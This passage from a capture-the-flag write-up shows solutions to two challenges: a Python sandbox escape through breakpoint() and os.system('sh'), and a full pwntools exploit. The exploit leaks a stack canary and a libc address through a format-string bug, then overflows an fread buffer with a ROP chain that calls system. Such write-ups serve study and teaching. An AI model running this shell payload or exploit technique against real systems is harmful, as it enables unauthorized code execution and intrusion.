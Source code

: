 **Proof of solving**
1. **Initial Payload Creation**:
   - Crafted a payload using the `breakpoint()` function to gain access to the shell environment.

2. **Execution of Command**:
   - The payload was structured as `𝘣𝘳𝘦𝘢𝘬𝘱𝘰𝘪𝘯𝘵(), then import os; os.system("sh")`, allowing shell access.

3. **Verification**:
   - The payload was successfully executed, leading to the retrieval of the flag.

---

### Buy Coffee
**Proof of flag**
`CTF{b5d4efc30c05420acb161eb92e120a902187d9710b297fba36d42528ea4ae09d}`

**Summary of the vulnerabilities identified**
The challenge included a stack canary protection, which could be leaked using a printf format vulnerability. A subsequent libc leak allowed for the calculation of the libc base, while a final buffer overflow in the `fread` call enabled the writing of a ROP payload.

**Proof of solving**
1. **Stack Canary Leak**:
   - Leaked the canary using a formatted input with `printf`.

2. **Libc Leak**:
   - Retrieved the libc leak to calculate the base address.

3. **Payload Construction**:
   - Created a payload to exploit the buffer overflow, incorporating the leaked canary and ROP chain.

```python
from pwn import *

elf = context.binary = ELF("./chall_patched")
libc = ELF("./libc-2.31.so")

r = remote("34.141.5.94", 30177)
r.sendlineafter(b"\n$ ", b"%9$p")
canary = int(r.recv(18).decode()[2:], 16)
print(hex(canary))
leak = int(r.recvline().split(b" ")[-1].strip().decode()[2:], 16)
print(hex(leak))
libc.address = leak - libc.sym["printf"]
print(hex(libc.address))
payload = b"a" * 24
payload += p64(canary)
payload += b"a" * 8
payload += p64(libc.address + 0x23b6a)
payload += p64(libc.address + 0x1b45bd)
payload += p64(libc.address + 0x22679)
payload += p64(libc.sym["system"])
r.sendafter(b"\n$ ", payload)
r.send(b"a" * 8)  # to finish fread
r.interactive()
```

---